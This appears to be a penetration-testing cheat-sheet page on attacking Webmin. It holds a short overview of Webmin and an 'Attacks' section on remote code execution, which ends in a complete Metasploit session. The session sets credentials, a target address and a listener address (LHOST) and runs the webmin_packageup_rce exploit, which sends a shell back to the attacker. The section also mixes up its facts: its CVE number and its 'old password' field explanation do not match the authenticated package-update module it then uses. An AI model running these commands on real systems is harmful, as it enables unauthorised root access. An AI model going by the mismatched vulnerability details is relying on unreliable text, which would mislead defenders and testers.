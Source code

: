 # Webmin (10000)

## 101

Webmin is a **web-based system administration interface** for Unix-like systems, typically running on port `10000` by default. It allows administrators to manage various aspects of a system—such as users, services, packages, and configuration files—entirely through a browser, without needing to use the terminal or SSH.

## Attacks

### RCE

[CVE-2019-9624](https://nvd.nist.gov/vuln/detail/cve-2019-9624) is a RCE in Webmin versions prior to `1.910`. It specifically affects installations where the `old password` option is enabled for password changes. In vulnerable versions, if a user submits a password change request, Webmin checks the old password—but only if the `old password` option is enabled in the configuration. Due to improper input handling, attackers could craft a request to inject OS commands through the `old` password field. These commands would then be executed with the privileges of the Webmin process (often `root`).

MSF's [`webmin_packageup_rce`](https://www.rapid7.com/db/modules/exploit/linux/http/webmin_packageup_rce/) module can be used:

{% code overflow="wrap" %}
```bash
msf6 > use exploit/linux/http/webmin_packageup_rce
msf6 exploit(linux/http/webmin_packageup_rce) > set password Password6543
msf6 exploit(linux/http/webmin_packageup_rce) > set username admin
msf6 exploit(linux/http/webmin_packageup_rce) > set rhosts 172.16.1.1
msf6 exploit(linux/http/webmin_packageup_rce) > set rport 10000
msf6 exploit(linux/http/webmin_packageup_rce) > set lhost tun0
msf6 exploit(linux/http/webmin_packageup_rce) > run
```
{% endcode %}
